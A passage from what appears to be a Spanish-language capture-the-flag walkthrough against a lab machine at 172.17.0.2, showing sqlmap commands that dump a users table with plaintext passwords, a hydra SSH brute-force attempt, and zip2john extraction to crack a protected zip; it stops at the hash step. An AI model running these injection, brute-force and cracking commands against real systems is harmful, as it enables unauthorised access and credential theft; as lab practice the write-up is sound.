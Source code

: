 Ahora vamos a obtener las tablas para la base de datos: **injectors_db**
```bash
sqlmap -u http://172.17.0.2/login.php --forms -D injectors_db --tables --batch
```

Tenemos la tabla:
```bash
Database: injectors_db
[1 table]
+-------+
| users |
+-------+
```

Ahora vamos a dumpear los datos para esa tabla:
```bash
sqlmap -u http://172.17.0.2/login.php --forms -D injectors_db -T users --dump --batch
```

Tenemos la bd:
```bash
Database: injectors_db
Table: users
[5 entries]
+----+-----------------------------+----------+
| id | password                    | username |
+----+-----------------------------+----------+
| 1  | loveyou                     | root     |
| 2  | chicago123                  | jane     |
| 3  | password                    | admin    |
| 4  | no_mirar_en_este_directorio | ralf     |
| 5  | hacker                      | hacker   |
+----+-----------------------------+----------+
```

Usando estas credenciales como diccionanrio para realizar un ataque de fuera bruta no obtuvimos ningun usuario valido por **ssh**
```bash
hydra -L users.txt -P passwords.txt -f ssh://172.17.0.2
```

Ahora miraremos en este directorio **no_mirar_en_este_directorio**:
```bash
http://172.17.0.2/no_mirar_en_este_directorio/
```

Y vemos que contiene un archivo: **secret.zip** el cual descargaremos en nuestro equipo para relizar **esteganografia** en caso de que contenga datos o archivos ocultos:
Intentando descomprimir el archivo nos pide una contrasena que no tenemos
```bash
7z x secret.zip

Enter password (will not be echoed):
zsh: suspended  7z x secret.zip
```

Asi que realizaremos un ataque de fuerza bruta para descubrir la clave que nos permita descomprimir el archivo:
```bash
zip2john secret.zip > hash
ver 2.0 efh 5455 efh 7875 secret.zip/confidencial.txt PKZIP Encr: TS_chk, cmplen=132, decmplen=177, crc=D2FD3E9E ts=7A38 cs=7a38 type=8
```
